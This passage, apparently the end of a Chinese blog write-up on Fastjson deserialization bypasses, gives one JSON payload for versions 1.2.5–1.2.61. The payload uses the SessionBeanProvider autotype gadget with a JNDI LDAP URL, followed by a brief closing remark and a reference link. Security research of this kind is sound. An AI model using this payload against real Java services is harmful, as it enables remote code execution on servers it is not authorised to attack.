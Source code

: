 ### Fastjson1.2.5 <= 1.2.61

JAVA

```
{"@type":"org.apache.commons.proxy.provider.remoting.SessionBeanProvider","jndiName":"ldap://localhost:1389/Exploi
```

## 0x10 小结

有点 CTF 那味儿了哈哈

## 参考资料

[Fastjson系列三——历史版本补丁绕过（需开启AutoType） [ Mi1k7ea \]](https://www.mi1k7ea.com/2019/11/10/Fastjson系列三——历史版本补丁绕过（需开启AutoType）/)